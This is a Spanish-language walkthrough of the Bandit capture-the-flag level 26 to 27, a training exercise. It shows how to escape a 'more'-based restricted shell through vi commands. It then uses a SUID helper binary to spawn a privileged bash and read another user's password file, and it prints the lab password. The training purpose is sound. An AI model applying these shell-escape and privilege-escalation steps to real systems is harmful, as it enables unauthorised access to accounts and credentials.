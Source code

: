 <!-- Autor: Daniel Benjamin Perez Morales -->
<!-- GitHub: https://github.com/DanielBenjaminPerezMoralesDev13 -->
<!-- Gitlab: https://gitlab.com/DanielBenjaminPerezMoralesDev13 -->
<!-- Correo electrónico: danielperezdev@proton.me  -->

# ***Bandido Nivel 26 → Nivel 27***

- **Objetivo de nivel**

- *¡Buen trabajo consiguiendo un caparazón! ¡Ahora date prisa y consigue la contraseña de bandido27!*
- *Comandos que puedes necesitar para resolver este nivel*

- *ls*

## **Explicación paso a paso para resolver el nivel de Bandit26 a Bandit27**

---

### **Problema inicial: Restricción de la shell**  

- *Al intentar conectarte como **bandit26**, el sistema ejecuta un script (`/usr/bin/showtext`) que utiliza `more` para mostrar un fichero, bloqueando comandos interactivos. Esto se evidencia en el valor de la variable `$SHELL`:*

```bash
bandit26@bandit:~$ echo $SHELL
/usr/bin/showtext
```

- *Contenido del script **`showtext`**:*

```bash
#!/bin/sh
export TERM=linux
exec more ~/text.txt
exit 0
```

```bash
cat ~/text.txt
```

```bash
bandit26@bandit:~$ cat ~/text.txt
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
```

---

### **Solución paso a paso:**

1. **Usar tmux para manejar la pantalla:**
   - *Al minimizar el panel con **tmux**, evitamos que `more` pagine el contenido, permitiendo ejecutar comandos manualmente.*

2. **Cambiar la shell dentro de `more`:**  
   *Una vez dentro de **`more`**:*

   - ***Presiona `v`** para entrar en el modo visual.*
   - *Escribe el siguiente comando para cambiar la shell predeterminada a **`bash`**:*

     ```bash
     :set shell=/bin/bash
     ```

   - Luego, ejecuta:

     ```bash
     :shell
     ```

3. **Por qué el cambio soluciona el problema:**  
   - *El comando `:shell` abre una nueva instancia de la shell especificada. Como ahora es **`bash`**, permite ejecutar comandos sin restricciones.*

---

### **Ejecución de comandos para escalar privilegios:**

#### **Verificación de permisos:**

```bash
bandit26@bandit:~$ ls -l
total 20
-rwsr-x--- 1 bandit27 bandit26 14880 Sep 19 07:08 bandit27-do
-rw-r----- 1 bandit26 bandit26   258 Sep 19 07:08 text.txt
```

- *El binario **`bandit27-do`** tiene el bit **SUID** activado, lo que permite ejecutarlo como **bandit27**.*

#### **Ejecutar comandos como bandit27:**

```bash
bandit26@bandit:~$ ./bandit27-do bash -p
bash-5.2$ whoami
bandit27
bash-5.2$ exit
```

#### **Obtener la contraseña del siguiente nivel:**

```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

---

### **Resumen final:**

1. **El script `showtext` limita el acceso a comandos interactivos** *al usar `more`.*
2. **Cambiar la shell a `bash` y ejecutar `:shell`** *permite escapar de esta restricción.*
3. **Usar `bandit27-do`** *con el bit SUID permite ejecutar comandos como **bandit27** y acceder a la contraseña.*
